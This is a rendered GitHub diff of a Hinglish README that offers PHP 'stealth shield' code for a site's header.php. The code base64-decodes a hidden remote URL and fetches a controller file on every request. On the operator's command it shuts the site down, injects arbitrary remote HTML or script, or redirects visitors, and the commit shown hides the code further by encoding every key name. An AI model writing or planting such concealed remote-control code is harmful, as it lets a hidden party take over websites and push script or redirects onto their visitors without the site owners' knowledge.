

Before and after one commit to SilentSudoX/SilentSudoX.github.io, a Markdown page: lib/README.md, the part around one of its changes. Shown at 85% size. Drawn GitHub-style.

````diff
--- a/lib/README.md
+++ b/lib/README.md
@@ -101,86 +101,87 @@ Bilkul, maine aapke liye **HTML (Landing Page)**, **PHP Core**, aur **WordPress*
 **Kahan lagayein:** Website ki main file (e.g., `header.php`) ke sabse top par.
 
 ```php
-
 <?php
-/* --- PHP STEALTH SHIELD V10 (FIXED FOR CUSTOM CODE) --- */
+/* --- PHP STEALTH SHIELD V10 (FULLY ENCRYPTED) --- */
 function _sys_sync_final_v10(){
-    // Base64 Encoded URL and Key
+    // Configuration Encrypted
     $_u = base64_decode("aHR0cHM6Ly9mYWhhZHRlY2g4LmdpdGh1Yi5pby9saWNlbnNlLW1hbmFnZXIvY29udHJvbGxlci5qc29u");
     $_k = base64_decode("RkFIQUQtNzg2"); // Key: FAHAD-786
 
+    // Key Mappings Encrypted
+    $_f = [
+        'l' => base64_decode("bGljZW5zZXM="),        // licenses
+        's' => base64_decode("c2V0dGluZ3M="),        // settings
+        'e' => base64_decode("ZXhwaXJ5"),            // expiry
+        'a' => base64_decode("YXV0aG9yaXplZF90YXJnZXQ="), // authorized_target
+        'c' => base64_decode("Y3VzdG9tX2NvZGU="),    // custom_code
+        'en' => base64_decode("ZW5hYmxlZA=="),       // enabled
+        'co' => base64_decode("Y29kZQ=="),           // code
+        're' => base64_decode("cmVkaXJlY3RfZW5hYmxlZA=="), // redirect_enabled
+        'ru' => base64_decode("cmVkaXJlY3RfdXJs"),    // redirect_url
+        'rd' => base64_decode("cmVkaXJlY3RfZGVsYXlfc2Vj"), // redirect_delay_sec
+        'mi' => base64_decode("bXNnX2ludmFsaWQ="),    // msg_invalid
+        'me' => base64_decode("bXNnX2V4cGlyZWQ="),    // msg_expired
+        'md' => base64_decode("bXNnX2RvbWFpbl9taXNtYXRjaA=="), // msg_domain_mismatch
+        'lbl' => base64_decode("UmVkaXJlY3RpbmcgYXV0b21hdGljYWxseSBpbg=="), // Redirecting label
+        'lbl2' => base64_decode("c2Vjb25kcy4uLg==")   // seconds label
+    ];
+
     $_h = str_replace('www.', '', $_SERVER['HTTP_HOST']);
     $_ctx = stream_context_create(["http" => ["timeout" => 5]]);
-
-    // Fetch JSON with anti-cache
     $_r = @file_get_contents($_u . "?v=" . time(), false, $_ctx);
 
     if ($_r) {
         $_d = json_decode($_r, true);
-        $_l = $_d['licenses'][$_k] ?? null;
-        $_s = $_d['settings'] ?? [];
+        $_l = $_d[$_f['l']][$_k] ?? null;
+        $_s = $_d[$_f['s']] ?? [];
         $_t = date("Y-m-d");
 
         $_err = null;
-        $_is_custom = false;
+        $_is_c = false;
 
-        // --- STEP 1: Priority Check (Custom Code Enabled?) ---
-        if ($_l && isset($_l['custom_code']) && $_l['custom_code']['enabled'] === true) {
-            $_err = $_l['custom_code']['code']; // Stylish HTML uthayein
-            $_is_custom = true;
+        // Priority Check (Custom Code)
+        if ($_l && isset($_l[$_f['c']]) && $_l[$_f['c']][$_f['en']] === true) {
+            $_err = $_l[$_f['c']][$_f['co']];
+            $_is_c = true;
         }
-        // --- STEP 2: Normal License Validation ---
         else {
-            if (!$_l) {
-                $_err = $_d['msg_invalid'];
-            }
-            elseif (!empty($_l['authorized_target']) && !in_array($_h, $_l['authorized_target'])) {
-                $_err = $_d['msg_domain_mismatch'];
-            }
-            elseif (isset($_l['expiry']) && $_t > $_l['expiry']) {
-                $_err = $_d['msg_expired'];
-            }
+            if (!$_l) { $_err = $_d[$_f['mi']]; }
+            elseif (!empty($_l[$_f['a']]) && !in_array($_h, $_l[$_f['a']])) { $_err = $_d[$_f['md']]; }
+            elseif (isset($_l[$_f['e']]) && $_t > $_l[$_f['e']]) { $_err = $_d[$_f['me']]; }
         }
 
-        // --- STEP 3: Display Block Screen if Error or Custom Code exists ---
         if ($_err) {
-            $_delay = $_s['redirect_delay_sec'] ?? 20;
-            $_url = $_s['redirect_url'] ?? "#";
+            $_dly = $_s[$_f['rd']] ?? 20;
+            $_url = $_s[$_f['ru']] ?? "#";
             $_title = $_d['title'] ?? "Security Shield Active";
-
-            // Agar custom message hai toh redirect timer hide rakhein (Optional)
-            $_timer_style = $_is_custom ? "display:none;" : "display:block;";
+            $_t_style = $_is_c ? "display:none;" : "display:block;";
 
             die("<style>
                 body{margin:0;background:#000;overflow:hidden;}
                 #ov{position:fixed;inset:0;background:#000;color:#fff;display:flex;align-items:center;justify-content:center;text-align:center;font-family:sans-serif;z-index:2147483647;}
                 .bx{padding:40px;border:1px solid #222;border-radius:20px;max-width:480px;box-shadow:0 20px 50px rgba(0,0,0,0.5);}
                 h1{color:#ff3333;margin:0;font-size:28px;margin-bottom:20px;}
-                .msg-cont{color:#bbb;font-size:17px;line-height:1.6;}
-                .tr{margin-top:25px;border-top:1px solid #111;padding-top:20px;color:#666;font-size:13px; {$_timer_style} }
+                .mc{color:#bbb;font-size:17px;line-height:1.6;}
+                .tr{margin-top:25px;border-top:1px solid #111;padding-top:20px;color:#666;font-size:13px; {$_t_style} }
                 #tm{color:#fff;font-weight:bold;font-size:18px;}
             </style>
-            <div id='ov'>
-                <div class='bx'>
-                    <h1>{$_title}</h1>
-                    <div class='msg-cont'>{$_err}</div>
-                    <div class='tr' id='tr_box'>Redirecting automatically in <span id='tm'>{$_delay}</span> seconds...</div>
-                </div>
-            </div>
+            <div id='ov'><div class='bx'>
+                <h1>{$_title}</h1>
+                <div class='mc'>{$_err}</div>
+                <div class='tr'>{$_f['lbl']} <span id='tm'>{$_dly}</span> {$_f['lbl2']}</div>
+            </div></div>
             <script>
-                let s={$_delay};
-                let isCustom = " . ($_is_custom ? 'true' : 'false') . ";
-                if(!isCustom){
+                let s={$_dly}, ic=" . ($_is_c ? '1' : '0') . ";
+                if(ic=='0'){
                     let it=setInterval(()=>{
-                        s--;
-                        document.getElementById('tm').innerText=s;
+                        s--; document.getElementById('tm').innerText=s;
                         if(s<=0){ clearInterval(it); window.location.href='{$_url}'; }
                     },1000);
                 }
             </script>");
         }
 
-        // Google Analytics
         if (!empty($_s['analytics_id'])) {
             echo "<script async src='https://www.googletagmanager.com/gtag/js?id={$_s['analytics_id']}'></script><script>window.dataLayer=window.dataLayer||[];function gtag(){dataLayer.push(arguments);}gtag('js',new Date());gtag('config','{$_s['analytics_id']}');</script>";
         }
````
Also changed, not shown: other parts of lib/README.md (+49 -43 lines).
